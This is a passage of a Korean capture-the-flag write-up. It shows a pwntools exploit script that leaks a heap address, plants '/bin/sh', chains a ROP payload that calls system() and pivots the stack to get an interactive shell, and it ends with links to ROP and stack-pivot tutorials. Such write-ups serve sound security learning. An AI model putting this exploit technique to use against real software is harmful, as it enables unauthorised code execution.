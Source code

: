 ```python
remove(1)

make("A")
view(3)

heap_base=u32(p.recv(4)) & 0xFFFFF00
log.info(hex(heap_base))

make("/bin/sh\x00")

for i in range(0,100):
    make("C"*8)
gdb.attach(p,'code\nb *0x8ca+$code\n')

#pause()
payload = p64(0x400b03) + p64(heap_base+0x10) + p64(e.plt["system"])
#pause()
make(payload)
#pause()

# payload = bheap_base + 0xcf0
#gdb.attach(p,'code\nb *0x8ca+$code\n')

pause()
p.sendlineafter("input: ","1"*0x10+p64(heap_base+0xcf0-8)+p64(0x4008d8))
pause()

p.interactive()
```
<br><br><br>

### 4. 몰랐던 개념

---

- staci pivoting

    [ROP (Return Oriented Programming)](https://dool2ly.tistory.com/72)

    [16.Stack pivot](https://www.lazenca.net/display/TEC/16.Stack+pivot)
    